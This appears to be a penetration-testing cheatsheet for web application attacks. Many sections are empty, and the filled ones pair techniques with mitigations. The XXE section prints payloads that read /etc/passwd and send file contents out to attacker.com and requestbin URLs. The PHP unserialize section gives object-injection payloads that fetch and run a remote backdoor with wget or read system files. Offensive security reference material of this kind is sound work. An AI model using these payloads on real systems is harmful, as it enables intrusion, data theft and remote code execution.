


Web Application Security Cheatsheet
===================================

## Table of Contents

- [Session Management](#session-management)  
- [Access Controls](#access-controls)  
- [Authentication - OAuth](#authentication-oath) 
- [Authentication - SAML](#authentication-saml)  
- [XML - XML External Entities (XXE)](#xml--xml-external-entities)  
- [PHP Un-serialization](#php-un-serialize)  
- [Cross-Site Scripting (XSS)](#cross-site-scripting)  
- [Advanced XSS - Sandbox Escapes](#advanced-xss---sandbox-escapes)  
- [Advanced XSS - Single Origin Policy (SOP)](#advanced-xss---same-origin-policy-bypass)  
- [Advanced XSS - Content Security Policy (CSP)](#advanced-xss---content-security-policy-bypass)
- [SQL Injection](#sql-injection)
- [Advanced Injection](#advanced-injection)
- [AWS and Cloud](#amazon-web-services-and-cloud)

## Session Management
---

**Summary**  

Anatomy of a session cookie:  
_REQUEST: Server -> Client_
  
_REQUEST: Client -> Server_  
  

**Exploitation**  

Session Creation:  
* Attack the PRNG (pseudo-number-generator) and generate my own token?
  * Perform a brute force attack if PRNG is weak / patterns can be inferred.
* Hijack a valid user session by stealing their token after they log in.  

Session Handling / Transfer / Usage:  
* Steal the user cookie via. XSS.
  * Mitigated by `HttpOnly` flag: instructs web browsers not to allow scripts to access cookies. via the DOM document.cookie object.
* Steal the user cookie via. redirection to an external page.  

Session Clean-Up:
* Check / change cookie expiration.  

XXS via. cookies:
* Insert XSS payload into cookie content.  

**Mitigation**  

Session Creation:
* New tokens should be issued on login / privilege change.  
* Don't use persistent cookies or cacheable cookies.
* Set `HttpOnly` flag.  

Session Handling / Transfer / Usage:  
* Perform server-side validation of a user's session.  
* Don't reveal session tokens in a URL parameter.  
* Disable web-browser cross-tab sessions.  

Session Clean-up:
* Destroy sessions tokens appropriately: implement token expiration, avoid token re-use.  
* Force session logout on web browser window close events.  

## Access Controls
---

**Summary**  


**Exploitation**  


**Mitigation**  


## Authentication - OAuth
---

**Summary**  


**Exploitation**  


**Mitigation**  


## Authentication - SAML
---

**Summary**  

XML input containing a reference to an external entity which is processed by a weakly configured XML parser, enabling disclosure of confidential data, denial of service, server side request forgery, port scanning from the perspective of the machine where the parser is located, and other system impacts. (OWASP)

<a href="https://blog.netspi.com/attacking-sso-common-saml-vulnerabilities-ways-find/">Common SAML Implementation Mistakes</a> 

SAML Components:
* _Relay State_: a token to reference state information maintained by the Service Provider (SP).  
* _SAMLResponse_: the response from the Identity Provider (IDP) containing the base64 encoded Assertion to the SP.

**Exploitation**  

_Make sure to try [XXE attack vectors](#xml--xml-external-entities)_  

Modifying `NotBefore` or `NotOnOrAfter` values.
* Change values to a datetime which is valid within the time you want to make the malicious request.

Modifying SAML Attributes
* Some attributes may exist such as `userType`, which you may change to perform privilege escalation.

**Mitigation**

<a href="https://www.owasp.org/index.php/Authentication_Cheat_Sheet">OWASP Auth Cheatsheet</a><br>
<a href="https://www.owasp.org/index.php/SAML_Security_Cheat_Sheet">OWASP SAML Security Cheatsheet</a>


## XML – XML External Entities
---

**Summary**

Entity Types:
* _General entities_ - can be used in XML content like &name;  
  `<!ENTITY name "Hello World">`  
* _Parameter entities_ - can be used inside doctype definition like %name; (parameter entities can insert new entities) and inside entities values like %name;.  
  `<!ENTITY % name "Hello World">`  
  `<!ENTITY % name "Hello %myEntity;">`  
* _External entities_ - entities with query to external (not declared in current XML document) resource (can be used both: general entities and parameter entities)  
  `<!ENTITY name SYSTEM "URI/URL">`  
  `<!ENTITY name PUBLIC "any_text" "URI/URL">`  
* _External entities_ - can be used for doctypes too:  
  `<!DOCTYPE name SYSTEM "address.dtd" [...]>`  
  `<!DOCTYPE name PUBLIC "any text" "http://evil.com/evil.dtd">`  

_XML DTD (XML Document Type Declaration)_ is used to define the structure of the XML document, with a list of legal elements.  
* Provides a way for applications to share data using a common structure, to verify that the data received is valid.  
* Allows creation of Entities.  

**Exploitation**  

Basic XXE Test
  ```xml
  <!DOCTYPE test [<!ENTITY example "Hello World"> ]>
  <test>
    <hello>&example;</hello>
  </userInfo>
  ```

Local File Inclusion  
  ```xml
  <!DOCTYPE data [
      <!ELEMENT lol ANY>
      <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
  <lol>&xxe;</lol>
  ```

Remote File Inclusion / SSRF  
  ```xml
  <!DOCTYPE data [
      <!ELEMENT lol ANY>
      <!ENTITY xxe SYSTEM "https://attacker.com/evil.dtd">
      &xxe;
  ]>
  <lol>&file;</lol>
  ```  
  ```xml
  <!ENTITY % file SYSTEM "file:///etc/hosts">
  ```  

XXE Out of Bounds attack (XXE OOB) - Sending the response/data to your own server as output doesn't show on site.  
  ```xml
  <!DOCTYPE data [
    <!ENTITY dtd SYSTEM "https://attacker.com/evil.dtd">
    &dtd; 
  ]>
  <data>&send;</data>
  ```
  ```xml
  <!ENTITY % file SYSTEM "file:///c:/boot.ini">
  <!ENTITY % all "<!ENTITY send SYSTEM 'https://requestbin.fullcontact.com/1cxrgsm1/?%file;'>">
  &all;
  ```

**Exploitation: PHP-based** 

RCE (expect:// - Process Interaction Stream)  
  `<!ENTITY xxe SYSTEM "expect://id">`

PHP Filters  
  ```xml
  file:// — Accessing local filesystem
  http:// — Accessing HTTP(s) URLs
  ftp:// — Accessing FTP(s) URLs
  php:// — Accessing various I/O streams
  data:// — Data (RFC 2397)
  glob:// — Find pathnames matching pattern
  ssh2:// — Secure Shell 2
  ```  

**Exploitation: Other Tricks**

_WAF_: Use `PUBLIC` if `SYSTEM` is blocked.  
_Encoding_: Change encoding e.g. UTF-8 -> UTF-16 `<?xml version="1.0" encoding="UTF-16"?>`.  
^Use `cat file.xml | iconv -f UTF-8 -t UTF-16 > file_utf16.xml` to convert to UTF-16.  

**Mitigation**

IF POSSIBLE: Disable DTD's (`<!DOCTYPE x [ ]>`).  
ELSE: Disallow loading XML external entities (entities with queries to external resources).  


## PHP Un-serialize
---

**Summary**  

Allows an attacker to perform _code / sql injection_, _path traversal_ and _denial of service_ attacks due to user-input not being properly sanitised before being passed to the `unseralize()` PHP function. (OWASP)

Since PHP allows object serialisation, attackers can pass in a malicious string to a vulnerable `unserialize()` call, resulting in arbitrary PHP object injection.  

_See more_: <a href="https://www.owasp.org/index.php/PHP_Object_Injection">PHP Object Injection</a>  
_PHP Magic Methods_: http://php.net/manual/en/language.oop5.magic.php  

**Exploitation**

Example: Deleting an arbitrary file via. Path Traversal
```PHP
class Example1 {
   public $cache_file;

   function __construct() {
      // some PHP code...
   }

   function __destruct() {
      $file = "/var/www/cache/tmp/{$this->cache_file}";
      if (file_exists($file)) @unlink($file);
   }
}
// some PHP code...
$user_data = unserialize($_GET['data']);
// some PHP code...

// PAYLOAD //
http://testsite.com/vuln.php?data=O:8:"Example1":1:{s:10:"cache_file";s:15:"../../index.php";}
```

Example: Reverse Shell
```PHP
class PHPObjectInjection
{
   // CHANGE URL/FILENAME TO MATCH YOUR SETUP
   public $inject = "system('wget http://URL/backdoor.txt -O phpobjbackdoor.php && php phpobjbackdoor.php');";
}
// GENERATE ENCODED PAYLOAD
echo urlencode(serialize(new PHPObjectInjection));
```

Example: Local File Disclosure
```PHP
class PHPObjectInjection
{
   // CHANGE URL/FILENAME TO MATCH YOUR SETUP
   public $inject = "system('cat /etc/passwd');";
}

echo urlencode(serialize(new PHPObjectInjection));
//O%3A18%3A%22PHPObjectInjection%22%3A1%3A%7Bs%3A6%3A%22inject%22%3Bs%3A26%3A%22system%28%27cat+%2Fetc%2Fpasswd%27%29%3B%22%3B%7D
//'O:18:"PHPObjectInjection":1:{s:6:"inject";s:26:"system(\'cat+/etc/passwd\');";}'
```

**Mitigation**

Do not use unserialize() function with user-supplied input, use JSON functions instead i.e. `json_encode()` / `json_decode()`.

## Cross-Site Scripting
---

**Summary**

**Exploitation**

**Mitigation**


## Advanced XSS - Sandbox Escapes
---

**Summary**  

**Exploitation**  

**Mitigation**


## Advanced XSS - Same Origin Policy Bypass
---

**Summary**  

**Exploitation**  

**Mitigation**


## Advanced XSS - Content Security Policy Bypass
---  

**Summary**  

CSP is a security standard introduced to prevent attacks resulting from execution of malicious content in a trusted page. It allows website owners to declare approved origins of content that browsers should allow to load on that website.    

Example: `script-src userscripts.example.com`  
* Means only `userscripts.example.com` can provide scripts to be executed. INLINE SCRIPTS WON’T WORK.

CSP Components:  
`none`: matches nothing  
`self`: matches the current origin, but NOT its subdomains  
`unsafe-inline`: allows inline JavaScript and CSS.  
`unsafe-eval`: allows text-to-JavaScript mechanisms like eval  

**Exploitation**  

_Misconfigurations_: example write-up on Twitter CSP Bypass (misconfiguration)  
_JSONP_: including controlled JavaScript on the domain.  
_Polyglots_: CSP Bypass using Polyglot jpeg/javascript

**Mitigation**


## Server-Side Request Forgery
---

**Summary**  


**Exploitation**  


**Mitigation**  


## SQL Injection
---  

**Summary**  

**Exploitation**  

**Mitigation**


## Advanced Injection
---  

**Summary**  

**Exploitation**  

**Mitigation**


## Amazon Web Services and Cloud
---  

**Summary**  

**Exploitation**  

**Mitigation**


